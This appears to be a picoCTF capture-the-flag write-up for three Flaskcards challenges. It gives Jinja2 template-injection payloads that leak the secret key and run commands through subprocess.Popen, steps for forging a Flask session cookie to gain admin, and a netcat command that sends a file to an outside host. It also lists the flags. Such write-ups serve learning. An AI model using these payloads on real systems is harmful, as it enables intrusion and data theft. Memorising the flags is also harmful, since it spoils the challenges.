 # Flaskcards

1. Register and login.
2. Create new card `{{config}}`
3. Go to `List cards`

Flag: `picoCTF{secret_keys_to_the_kingdom_45e7608d}`

# Flaskcards Skeleton Key

With secret key you are able to forge cookies.

1. Register and login.
2. Copy your cookie.
3. Run [flask2.py](flask2.py) and set your cookie.
4. Open local flask app in your browser (most likely http://127.0.0.1:5000/)
5. The application will set your user_id to 1. Copy modified cookie and use it on the original website.
6. You are now logged as admin. Flag is on `admin` page

Flag: `picoCTF{1_id_to_rule_them_all_d77c1ed6}`

# Flaskcards and Freedom

1. Register and login
2. Create new card `{{ ''.__class__.__mro__[1].__subclasses__() }}`
3. Find index of subprocess.Popen class (in my case it's 525)
4. On picoCTF shell execute command: `nc -l -p 12345` (you can use any port that works)
5. Add another card `{{ ''.__class__.__mro__[1].__subclasses__()[525].__call__(['sh', '-c', 'cat flag | nc 2018shell.picoctf.com 12345' ]) }}` (the flag won't be displayed in the browser, you need to check netcat output)

Flag: `picoCTF{R_C_E_wont_let_me_be_9659aa9e}`